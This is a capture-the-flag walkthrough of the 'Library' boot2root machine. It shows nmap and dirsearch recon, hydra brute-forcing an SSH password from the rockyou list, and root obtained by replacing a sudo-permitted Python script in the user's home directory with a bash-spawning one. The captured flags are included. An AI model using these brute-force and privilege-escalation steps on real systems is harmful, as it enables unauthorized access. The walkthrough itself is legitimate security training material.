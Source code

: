 # Library

boot2root machine for FIT and bsides guatemala CTF

# #1 - user.txt

Nmap reveals 2 open ports: SSH and HTTP on their standard ports:

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

dirsearch doesn't reveal any interesting hidden directory:

~~~
$ /data/src/dirsearch/dirsearch.py -u http://10.10.186.119 -E -w /data/src/wordlists/directory-list-2.3-medium.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 220529

Error Log: /data/src/dirsearch/logs/errors-20-06-22_17-40-21.log

Target: http://10.10.186.119

[17:40:21] Starting: 
[17:40:22] 200 -    5KB - /
[17:40:22] 301 -  315B  - /images  ->  http://10.10.186.119/images/
[17:40:24] 403 -  292B  - /.hta
[17:48:41] 403 -  301B  - /server-status

Task Completed
~~~

However, there is a robot file which gives a hint (`rockyou`). Should we brute force an account?

~~~
$ curl -s http://10.10.186.119/robots.txt
User-agent: rockyou 
Disallow: /
~~~

Browsing the main webpage (the only one) reveals a static page where no link is working, but there are accounts information left on the page:

* `meliodas` (author)
* `root` (posted a comment)
* `www-data` (posted a comment)
* `Anonymous` (posted a comment)

Let's try to brute force melioda's account: 

~~~
$ hydra -l meliodas -P /data/src/wordlists/rockyou.txt ssh://10.10.186.119
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-22 17:58:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.186.119:22/
[STATUS] 183.00 tries/min, 183 tries in 00:01h, 14344222 to do in 1306:24h, 16 active
[22][ssh] host: 10.10.186.119   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-22 18:00:34
~~~

After a very short while, we get meliodas password: `iloveyou1`. Let's try to connect to the SSH service:

~~~
$ ssh meliodas@10.10.186.119
meliodas@ubuntu:~$ cat user.txt 
6d488cbb3f111d135722c33cb635f4ec
~~~

User flag: `6d488cbb3f111d135722c33cb635f4ec`

# #2 - root.txt

Let's check our privileges:

~~~
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
~~~

We can run the `bak.py` python script as sudo without password. Let's see what this script is all about:

~~~
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
~~~

The `bak.py` file is owned by root and we can't modify it:

~~~
-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
~~~

However, it is in our home directory where we have write access. Hence, we can remove the file, and replace it's content:

~~~
meliodas@ubuntu:~$ rm -f bak.py
meliodas@ubuntu:~$ cat > bak.py << EOF
#!/usr/bin/env python
import pty
pty.spawn("/bin/bash")
EOF
~~~

Let's elevate to root and get the root flag:

~~~
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py
root@ubuntu:~# cat /root/root.txt 
e8c8c6c256c35515d1d344ee0488c617
~~~

Root flag: `e8c8c6c256c35515d1d344ee0488c617`